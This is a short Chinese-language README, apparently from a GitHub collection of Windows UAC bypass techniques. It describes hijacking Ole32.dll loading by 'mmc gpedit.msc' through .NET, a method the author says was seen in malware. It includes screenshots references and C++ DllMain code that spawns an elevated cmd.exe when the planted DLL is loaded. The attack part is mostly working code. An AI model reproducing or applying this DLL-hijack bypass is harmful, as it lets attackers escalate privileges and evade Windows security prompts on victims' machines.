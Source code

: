 # UACBypass 整理

### 先来讲讲之前病毒里遇到的 通过.NET劫持Ole32.dll

- 首先查看`mmc gpedit.msc`的运行过程截图

- 可以发现有明显的两个相同`old32.dll`的调用均为找到![image-20210311115225656](https://github.com/XforsecW12Lab/UACBypassSet/blob/main/Images/image-20210311115225656.png)

- 既然失败了那就放两个进去让他调用![image-20210312152415592](https://github.com/XforsecW12Lab/UACBypassSet/blob/main/Images/image-20210312152415592.png)

  ```C++
  // DLL 代码
  BOOL APIENTRY DllMain(HMODULE hModule,
  	DWORD  ul_reason_for_call,
  	LPVOID lpReserved
  )
  {
  	SHELLEXECUTEINFO sei = { sizeof(SHELLEXECUTEINFO) };
  	switch (ul_reason_for_call)
  	{
  	case DLL_PROCESS_ATTACH:
  
  	case DLL_THREAD_ATTACH:
  		sei.fMask = SEE_MASK_NOCLOSEPROCESS;
  		sei.lpVerb = TEXT("runas");
  		sei.lpFile = TEXT("cmd.exe");
  		sei.lpDirectory = TEXT("c:\\Windows\\system32\\");
  		sei.nShow = SW_SHOWNORMAL;
  		if (!ShellExecuteEx(&sei))
  		{
  			DWORD dwStatus = GetLastError();
  		}
  	case DLL_THREAD_DETACH:
  	case DLL_PROCESS_DETACH:
  		break;
  	}
  ```